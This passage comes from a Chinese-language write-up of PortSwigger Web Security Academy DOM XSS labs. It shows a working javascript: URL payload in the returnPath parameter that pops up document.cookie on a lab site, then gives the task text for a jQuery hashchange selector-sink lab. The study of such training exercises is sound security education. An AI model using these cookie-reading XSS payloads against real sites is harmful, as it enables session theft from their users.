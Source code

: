 把 `/feedback` 替换为 `javascript:alert(document.cookie)`

```http
https://0af900d2037351e883bbabff001b005d.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)
```

再点击 back 按钮，则弹出来 Cookie

<img src=".\图片\Snipaste_2023-06-18_16-00-58.png" alt="Snipaste_2023-06-18_16-00-58" style="zoom:67%;" />

## Lab6

Lab: DOM XSS in jQuery selector sink using a hashchange event

This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property.

To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser.

```
实验6：jQuery选择器接收器中使用hashchange事件的DOM XSS
信息：

本实验的主页上存在一个基于DOM的跨站点脚本漏洞。它使用jQuery的$()选择器函数自动滚动到给定的帖子，其标题通过location.hash属性传递。

解决实验：向受害者发送一个利用漏洞攻击，在其浏览器中调用print()函数
```
